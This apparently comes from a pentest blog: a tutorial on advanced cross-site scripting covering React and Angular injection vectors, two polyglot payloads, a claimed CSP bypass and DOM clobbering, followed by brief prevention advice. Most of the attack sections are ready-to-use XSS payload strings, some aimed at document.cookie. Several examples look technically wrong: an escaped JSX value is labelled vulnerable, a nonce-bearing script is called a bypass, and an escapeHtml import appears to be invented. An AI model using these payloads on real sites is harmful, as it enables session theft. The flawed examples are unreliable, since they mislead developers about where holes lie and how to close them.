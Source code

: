 ```yaml
---
title: "Advanced XSS Techniques: Mastering Framework-Specific Exploits and Polyglot Payloads"
image: "https://armur-ai.github.io/armur-blog-pentest/images/security-fundamentals.png"
icon: "code"
draft: false
---
```


Cross-Site Scripting (XSS) continues to be one of the most prevalent web security vulnerabilities, ranking consistently in the OWASP Top 10. While basic XSS attacks are well-understood, modern web frameworks and security controls have evolved, necessitating more sophisticated exploitation techniques. In this comprehensive tutorial, we'll explore advanced XSS concepts, focusing on framework-specific vulnerabilities and the power of polyglot payloads.

## Understanding Modern Web Framework Security

Modern web frameworks like React, Angular, and Vue.js implement various security measures to prevent XSS attacks. However, these frameworks aren't immune to vulnerabilities. Let's explore how different frameworks handle user input and where they might be vulnerable.

### React-Specific XSS Vectors

React's JSX syntax provides some inherent XSS protection, but there are several ways to bypass these safeguards:

- **dangerouslySetInnerHTML Exploitation**  
React's `dangerouslySetInnerHTML` property is often a source of XSS vulnerabilities. Consider this example:

  ```javascript
  function UserContent({ content }) {
    return <div dangerouslySetInnerHTML={{ __html: content }} />;
  }
  ```

  This seemingly innocent code can be exploited if `content` contains a malicious payload:

  ```javascript
  const maliciousContent = '<img src=x onerror="alert(document.cookie)">';
  ```

- **URL-based Attacks in React**  
React applications often use URL parameters for routing and state management. Here's a vulnerable implementation:

  ```javascript
  function ProfileComponent() {
    const params = useParams();
    return <div>{decodeURIComponent(params.name)}</div>;
  }
  ```

### Angular-Specific Vulnerabilities

Angular provides built-in sanitization, but certain scenarios can lead to XSS:

- **Template Injection**  
  When using Angular's template syntax incorrectly:

  ```typescript
  @Component({
    template: `<div [innerHTML]="userInput | safeHtml"></div>`
  })
  export class VulnerableComponent {
    userInput = '<script>alert(1)</script>';
  }
  ```

  **Bypass Techniques:**

  ```typescript
  const bypass = '<svg><animate onbegin="alert(1)" attributeName=x dur=1s>';
  ```

## Understanding Polyglot Payloads

Polyglot payloads are sophisticated XSS vectors that can execute in multiple contexts. These payloads are particularly effective because they can bypass multiple types of filters simultaneously.

### Creating Effective Polyglot Payloads

Here's an example of a basic polyglot payload:

```javascript
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*<svg*/onload=alert()//>
```

This payload works across different contexts because it:

- Closes multiple common tags
- Uses multiple encoding techniques
- Leverages different execution contexts

### Advanced Context-Aware Payloads

Different contexts require different approaches. Here's a sophisticated payload that works in multiple contexts:

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a //</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

## Framework-Specific Bypass Techniques

### Modern Security Headers

Understanding how to bypass security headers is crucial:

- **Content-Security-Policy (CSP) Bypass:**

  ```javascript
  <script nonce="random">
    // Legitimate script with proper nonce
    setTimeout(`alert\x28document.cookie\x29`);
  </script>
  ```

### DOM Clobbering Attacks

DOM clobbering can be used to bypass certain framework protections:

```html
<form id="x">
  <input id="y" name="innerHTML" value="<img src=x onerror=alert(1)"> 
</form>
```

## Best Practices for XSS Prevention

While understanding these advanced techniques is important, implementing proper defenses is crucial:

- **Input Validation and Sanitization**  
  Always implement proper input validation:

  ```javascript
  // Example of proper input sanitization
  function sanitizeInput(input) {
    return input.replace(/[^\w. ]/gi, function(c) {
      return '&#' + c.charCodeAt(0) + ';';
    });
  }
  ```

- **Content Security Policy Implementation**  
  Implement strict CSP headers:

  ```http
  Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-random123'
  ```

- **Framework-Specific Security Features**  
  Utilize built-in security features:
  
  **React:**

  ```javascript
  // Use React's escapeHtml utility
  import { escapeHtml } from 'react-html-parser';
  const safeContent = escapeHtml(userInput);
  ```

## Conclusion

Advanced XSS techniques continue to evolve as web frameworks and security measures become more sophisticated. Understanding these advanced concepts is crucial for both security professionals and developers. Remember that while knowing these techniques is important for testing and security assessment, implementing proper security controls and following best practices is essential for building secure applications.